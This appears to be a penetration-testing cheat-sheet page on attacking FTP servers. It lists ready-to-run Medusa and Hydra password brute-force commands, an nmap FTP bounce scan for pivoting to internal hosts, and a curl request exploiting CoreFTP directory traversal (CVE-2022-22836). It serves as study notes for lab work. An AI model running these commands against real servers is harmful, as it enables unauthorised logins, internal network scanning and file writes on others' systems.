

# Attacking FTP

#### **Brute-Forcing FTP Login (If Anonymous Access is Disabled)**

If **anonymous login** is **not allowed**, we can try brute-forcing the FTP password using **Medusa**.

```bash
medusa -u fiona -P /usr/share/wordlists/rockyou.txt -h 192.168.2.142 -M ftp
```

```bash
hydra -L users.list -P passwords.list <ftp://10.129.6.59> -s 2121 -t 10
```

<figure><figcaption></figcaption></figure>

#### **FTP Bounce Attack (Pivoting Through FTP)**

Some FTP servers allow **FTP Bounce**, meaning we can use them as a **proxy** to scan other devices inside a network.

The FTP Bounce Attack uses an FTP server to secretly scan or hit another device on the same network. You trick the server with the "PORT" command to connect to the hidden device and get info, like open ports. It works if the server’s settings are off, but modern ones usually block it.

```bash
nmap -Pn -v -n -p80 -b <anonymous:password@10.10.110.213> 172.17.0.2
```

***

the `CoreFTP before build 727`  is vulnerable to [CVE-2022-22836](https://nvd.nist.gov/vuln/detail/CVE-2022-22836). which is vulnerable to Directory traversal

```bash
curl -k -X PUT -H "Host: <IP>" --basic -u <username>:<password> --data-binary "PoC." --path-as-is https://<IP>/../../../../../../whoops
```
